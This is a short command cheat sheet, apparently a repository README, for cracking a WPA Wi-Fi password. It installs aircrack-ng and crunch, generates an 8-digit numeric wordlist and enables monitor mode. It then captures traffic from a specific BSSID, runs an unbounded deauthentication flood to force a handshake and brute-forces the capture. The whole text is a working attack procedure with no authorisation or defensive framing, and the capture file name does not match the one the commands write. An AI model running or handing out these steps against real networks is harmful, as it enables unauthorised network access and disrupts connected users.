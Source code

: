 ### Install software

sudo apt install aircrack-ng crunch

### Generate dict
crunch 8 8 1234567890 -o /path/to/file/dict.lst

### Process
sudo iwconfig # See interface
sudo airmon-ng start wlp3s0

sudo airodump-ng -c 11 --bssid B8:EC:A3:FC:BD:F8 -w test wlp3s0
sudo aireplay-ng -0 0 -a B8:EC:A3:FC:BD:F8 wlp3s0

### Up interface and run bruteforce
sudo systemctl enable wpa_supplicant.service
aircrack-ng work-01.cap -w dict.lst